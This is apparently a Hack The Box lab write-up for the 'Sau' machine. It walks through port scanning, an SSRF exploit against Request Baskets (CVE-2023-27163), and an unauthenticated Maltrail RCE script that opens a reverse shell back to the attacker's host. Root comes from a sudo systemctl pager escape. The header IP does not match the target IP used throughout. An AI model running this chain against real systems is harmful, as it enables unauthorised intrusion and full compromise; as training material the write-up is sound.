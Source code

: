 # HTB - Sau

#### Ip: 10.10.10.248
#### Name: Sau
#### Rating: Easy

----------------------------------------------------------------------

![Sau.png](../assets/sau_assets/Sau.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.224
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-14 10:30 CST
Nmap scan report for 10.10.11.224
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 14 Feb 2024 16:31:12 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 14 Feb 2024 16:30:44 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 14 Feb 2024 16:30:45 GMT
|_    Content-Length: 0
```

Interesting how port 80 and 8338 are returning on the Nmap scan, but are filtered.

Looking at port 55555 we see it is a web page running Request Baskets:

![sau_site.png](../assets/sau_assets/sau_site.png)

At the bottom of the page we also get the version number running:

```
Powered by request-baskets | Version: 1.2.1 
```

Searching for exploits against this version, we find it is vulnerable to SSRF, and and find a public exploit for the vulnerability: https://github.com/entr0pie/CVE-2023-27163

I don't have much experience with SSRF, so reading up on the vulnerability anymore I find a helpful refresher at: https://portswigger.net/web-security/ssrf

Per the site:

```
 Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials. 
```

Ok cool, so thinking back to ports 80 and 8338 being filtered on the target, I wonder if they are open internally only and we can access them using this exploit.

Lets try it.

### Exploitation

Downloading the exploit using wget, I can then run it, with the first argument being the vulnerable service on port 55555, and the second argument being port 80 running on localhost:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ bash CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "dbvzpu" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dbvzpu now makes the server request to http://127.0.0.1:80/.
> Authorization: 7u30CF26LRwaGj0ZCeEYdMwcqCu5Hh2e7_Lhrvhln91D
```

This creates a basket for us, and gives us the authorization key to access it.


Now if we navigate to the created basket we can see port 80 is running maltrail V0.53

![sau_internal.png](../assets/sau_assets/sau_internal.png)

Looking for maltrail exploits I find an unauthenticated RCE: https://github.com/spookier/Maltrail-v0.53-Exploit

This exploit targets the username parameter and injects a reverse shell into it.

Running the exploit against the basket targeting maltrail:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ python maltrail_rce.py 10.10.14.60 8338 http://10.10.11.224:55555/dbvzpu
Running exploit on http://10.10.11.224:55555/dbvzpu/login
```

Gets me a shell us user puma:

![sau_shell.png](../assets/sau_assets/sau_shell.png)

I can now access the user.txt flag in puma's home directory:

![sau_user.png](../assets/sau_assets/sau_user.png)

### Privilege Escalation

Running `sudo -l` to see what I can run with elevated permissions:

```
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Cool, this should be straightforward. Checking out https://gtfobins.github.io/gtfobins/systemctl/

I find:

![sau_gtfo.png](../assets/sau_assets/sau_gtfo.png)

I can then run:

```
puma@sau:/usr/bin$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
<SNIP>
!sh
```

To drop into a root shell, permitting me to read the final flag:

![sau_root.png](../assets/sau_assets/sau_root.png)

Thanks for following along!

-Ryan

